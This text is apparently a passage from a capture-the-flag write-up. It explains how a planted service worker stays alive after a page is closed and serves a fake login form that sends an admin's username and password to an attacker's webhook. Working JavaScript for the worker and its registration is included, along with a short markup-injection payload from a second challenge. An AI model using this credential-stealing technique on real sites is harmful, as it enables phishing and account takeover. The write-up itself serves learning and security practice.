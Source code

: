 Our malicious page is visited then closed *before* the admin logs in, and we want the admin's login details. This means that any JS which lives strictly while the page is open won't work. What will work, however, are service workers!

Paraphrasing the [mozilla](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API/Using_Service_Workers) description, service workers improve the offline user experience by allowing for developers to more finely control the cache. For example, losing internet with service workers should mean that you can navigate between pages you've visited already (if they're cached) even while offline. From a design perspective, service workers have to work between pages in order for the scripts not to stop working after navigations, like traditional JS scripts would. Here however, service workers allow us to create JS that stays alive even after our page is closed. All we have to do is create some file `sw.js` that intercepts any following network requests and responds with our own custom form:

```js
self.addEventListener('fetch', e => {
    e.respondWith(
        new Response(`
            <form action=WEBHOOK>
                <input id=username name=username type=text>
                <input id=password name=password type=text>
                <input id=submit type=submit>
            </form>
        `)
    );
});
```

Then we just need to register this service worker:

```html
<script>
navigator.serviceWorker.register("FILENAME.js");
</script>
```

Uploading the first file will yield the filename, then we can upload the second file and send the admin to that file. When they go to the "login page", the form they enter details into will actually send their details to our webhook, which we can then extract the username and password from to log in as them.

```
username: initial_ducc
password: https://www.youtube.com/watch?v=sHgeidTpd1E
```

Bingo!

---

## The Real Monster [5]

This was my favourite web challenge. It's sourceless, but we can get somewhere pretty easily. Just trying any sort of markup injection in the username field works, i.e:

```
username: <b>hi</b>
```
